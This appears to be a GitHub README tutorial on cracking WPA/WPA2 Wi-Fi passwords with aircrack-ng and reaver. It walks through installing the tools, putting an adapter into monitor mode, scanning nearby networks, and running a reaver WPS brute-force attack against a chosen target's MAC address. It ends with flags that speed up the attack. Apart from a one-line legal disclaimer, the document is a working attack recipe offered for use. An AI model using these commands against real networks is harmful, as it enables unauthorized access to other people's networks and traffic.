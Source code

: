 # How to crack wpa/wpa2 passwords with linux (tested on ubuntu and Elementary OS)

In order to crack wifi passwords with linux you need to install __aircrack-ng__ and __reaver__.

How to isntall aircrack-ng: www.aircrack-ng.org/install.html

Downloading reaver: http://code.google.com/p/reaver-wps/downloads/list

You might also need to install on you computer __libpcap-dev__ and __libsqlite3-dev__, in order to do that just type the following lines in the terminal:
```
$ sudo apt-get install libpcap-dev
```
AND
```
$ sudo apt-get install libsqlite3-dev
```

## Now, Lets start the attack

#### if the next lines of code does not work, all you need to do is to type sudo in front of each one

1. Firstly, disconnect yourself from any wifi networks and type this code:
```
$ airmon-ng start wlan0
```

2. Next you need to put your wifi adapter into monitor mode, which will list all available wifi signals around you.
```
$ airodump-ng mon0
```
Once airdump list all availble wifi signals around, you can move to the next step, the actual attack.

3.After you decide who is you mark, just write this command with the marks` mac adress in order to start the attack.
```
$ reaver -i mon0 -b 00:11:22:33:44:55 -vv
```

## Cracking wifi passwords can be against the law in your country. You should not do this at all!

##TRICKS:

1. Speading the attack
```
$ reaver -i mon0 -b 00:01:02:03:04:05 -vv -d 0
```
OR
```
$ reaver -i mon0 -b 00:01:02:03:04:05 -vv --dh-small
```